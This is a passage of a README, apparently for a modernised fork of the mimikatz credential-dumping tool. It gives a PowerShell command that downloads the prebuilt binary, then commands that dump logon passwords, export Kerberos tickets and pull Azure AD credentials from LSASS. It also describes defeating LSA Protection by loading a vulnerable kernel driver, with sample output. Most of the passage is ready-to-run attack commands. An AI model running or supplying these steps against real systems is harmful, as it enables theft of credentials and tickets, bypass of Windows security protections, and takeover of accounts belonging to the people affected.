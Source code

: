 ### Download Pre-built Binary

```powershell
# Download latest release
Invoke-WebRequest -Uri "https://github.com/volume19/mimikatz-modern/releases/latest/download/mimikatz.exe" -OutFile "mimikatz.exe"
```

### Basic Usage

```cmd
# Run mimikatz
mimikatz.exe

# Enable debug privilege
mimikatz # privilege::debug

# Extract all credentials (auto-detects PPL and uses appropriate method)
mimikatz # sekurlsa::logonpasswords

# Extract Kerberos tickets
mimikatz # sekurlsa::tickets /export

# Azure AD credentials
mimikatz # sekurlsa::cloudap
```

### PPL-Protected Systems

On systems with LSA Protection enabled, mimikatz will automatically:
1. Detect PPL status
2. Query driver-hunter database for vulnerable drivers
3. Select and load optimal driver
4. Establish kernel-mode memory access
5. Extract credentials via driver

```
[*] Initializing modern credential extraction
[!] LSASS is PPL-protected
[+] Selected driver: vulnerable_driver.sys (Tool-Alpha: 35)
[+] Driver-based access initialized successfully
[+] Extracting credentials...
```

## Documentation

### For Users

- **[QUICKSTART.md](./QUICKSTART.md)** - Getting started guide
- **[USAGE.md](./USAGE.md)** - Detailed usage examples
- **[FAQ.md](./FAQ.md)** - Frequently asked questions

### For Developers
